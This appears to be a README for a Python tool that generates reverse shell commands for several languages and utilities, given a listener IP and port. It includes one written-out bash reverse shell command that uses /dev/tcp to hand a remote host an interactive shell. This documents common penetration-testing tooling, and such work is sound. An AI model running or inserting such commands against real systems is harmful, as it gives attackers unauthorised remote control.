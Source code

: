 **Reverse Shell Script Generator**

This Python script generates reverse shell commands in various formats based on user input. The user specifies the desired type of reverse shell (e.g., bash, python, php, etc.), and the script generates the corresponding reverse shell command using the provided IP and port.

**Features:**

Supports multiple types of reverse shell commands: bash, socat, java, python, php, nc.exe, ruby, and perl.

Generates reverse shell commands with the correct format for each type.

Takes user input for the target IP address and port, and generates a custom reverse shell command.

**Requirements:**

Python 3.x

No external libraries are required.

**Usage:**

python script.py shell <host_ip> <host_port>

shell - Type of script you need

<host_ip> - your machine ip address

<host_port> - port to listen on

**Example:**

python script.py bash 192.168.1.100 4444

output:

/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

**Other shell types that can be generated include:**

socat

java

python

php

nc.exe

ruby

perl
